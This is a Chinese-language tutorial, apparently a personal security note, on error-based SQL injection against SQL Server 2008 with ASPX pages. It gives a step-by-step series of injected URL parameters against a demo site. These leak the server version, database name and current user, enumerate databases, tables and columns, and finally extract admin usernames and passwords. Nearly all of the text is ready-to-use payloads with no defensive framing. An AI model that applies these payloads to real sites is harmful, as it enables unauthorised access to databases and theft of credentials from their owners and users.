

sqlserver在语句执行错误的时候会报错并且会在网页上显示出来。

环境 sql2008+aspx

## 1、显示系统信息

and @@version>0 利用mssql在转换类型的时候就出错时 会显示系统信息。

```http
http://www.demo1.com/index.aspx?id=1 and @@version>0
```

 

## 2、爆出数据库

```http
http://www.demo1.com/index.aspx?id=-1 and db_name()>0
```

## 3、爆出当前用户

```http
http://www.demo1.com/index.aspx?id=-1 and User_Name()>0
```

## 4、**爆出其他数据库**

```http
http://www.demo1.com/index.aspx?id=-1 and (SELECT top 1 Name FROM Master..SysDatabases)>0
http://www.demo1.com/index.aspx?id=-1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0
#爆出其他库(依次将表填入not in中)
http://www.demo1.com/index.aspx?id=-1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master','iNethinkCMS','model','msdb'))>0
```

## 5、爆表

```http
http://www.demo1.com/index.aspx?id=-1 and (select top 1 name from [mydb].sys.all_objects where type='U' AND is_ms_shipped=0)>0
http://www.demo1.com/index.aspx?id=-1 and (select top 1 name from mydb.sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('admin'))>0
#爆出其他表(依次将表填入not in中)
http://www.demo1.com/index.aspx?id=-1 and (select top 1 name from mydb.sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('admin','cmd','test_tmp','art'))>0
```

## 6、爆出列

```http
http://www.demo1.com/index.aspx?id=1 and  (select top 1 COLUMN_NAME from mydb.information_schema.columns where TABLE_NAME='admin' and COLUMN_NAME not in('ID'))>0
http://www.demo1.com/index.aspx?id=1 and  (select top 1 COLUMN_NAME from mydb.information_schema.columns where TABLE_NAME='admin' and COLUMN_NAME not in('ID','username'))>0
#爆出其他列(依次将表填入not in中)
http://www.demo1.com/index.aspx?id=1 and  (select top 1 COLUMN_NAME from mydb.information_schema.columns where TABLE_NAME='admin' and COLUMN_NAME not in('ID','username','password','email'))>0
```

## 7、爆出数据

```http
http://www.demo1.com/index.aspx?id=1 and (select top 1 password from admin)>0
http://www.demo1.com/index.aspx?id=1 and (select top 1 username from admin)>0
```

 